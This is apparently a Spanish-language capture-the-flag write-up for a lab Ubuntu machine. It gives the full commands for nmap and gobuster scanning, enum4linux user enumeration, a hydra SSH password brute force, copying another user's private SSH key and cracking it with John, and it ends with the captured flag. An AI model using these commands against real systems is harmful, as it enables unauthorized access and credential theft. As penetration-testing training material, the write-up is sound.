 # Summary
- IP: 10.10.116.216
- Ports: 22,80,139,445,8009,8080
- OS: Linux (Ubuntu)
- Services & Applications:
	-  22 -> OpenSSH 7.2p2 Ubuntu 4ubuntu2.4
	-  80 -> Apache httpd 2.4.18
	-  139 -> netbios-ssn Samba smbd 3.X - 4.X
	-  445  ->  netbios-ssn Samba smbd 4.3.11-Ubuntu
	-  8009 -> Apache Jserv (Protocol v1.3)
	-  8080 -> Apache Tomcat 9.0.7

# Recon
- Reconocimiento básico de puertos:

```
$sudo nmap -p- -sS --open --min-rate 5000 -vvv -n -Pn 10.10.116.216 -oG allPorts
``` 

- Reconocimiento profundo de puertos encontrados:

``` 
$sudo nmap -p22,80,139,445,8009,8080 -sCV 10.10.116.216 -oN targeted
``` 

- Análisis de directorios con gobuster:

``` 
$gobuster dir -u http://10.10.116.216:80 -w /home/dante/SecLists/Discovery/Web-Content/common.txt
``` 

- Encontramos el directorio /development, el cual contiene dos ficheros:

```
dev.txt
j.txt
```

- Realizamos un escaneo de log del protocolo smb:
``` 
$enum4linux.pl -a 10.10.116.216 | tee enum4linux.log
``` 

- Encontramos los siguientes usuarios:

```
\kay
\jan
```

- Con los usuarios encontrados, aplicamos fuerza bruta con hydra para intentar encontrar la contraseña para entrar vía ssh:
``` 
$hydra -l jan -P /home/dante/SecLists/Passwords/Leaked-Databases/rockyou.txt ssh://10.10.116.216
``` 

- Accedemos como usuario jan:
```
$ssh jan@10.10.116.216 
```

- Buscamos información que nos sirva para escalar privilegios o pivotear usuarios; encontramos un archivo ./kay/.ssh/id_rsa el cual contiene la private key ssh del usuario kay, la desciframos con John:
	- Primero copiamos el contenido exacto del archivo id_rsa y lo guardamos en un archivo pass
	- Ejecutamos  ```$python3 ssh2john.py pass > pass.txt```
	- Luego crackeamos con John: 
	```
		$john -w:/home/dante/SecLists/Passwords/Leaked-Databases/rockyou.txt pass.txt
	```

- Con la contraseña obtenida, accedemos via SSH con la private key anteriormente almacenada como pass:
```
$ssh -i passs kay@10.10.116.216
```

- Encontramos la flag de usuario:
heresareallystrongpasswordthatfollowsthepasswordpolicy$$

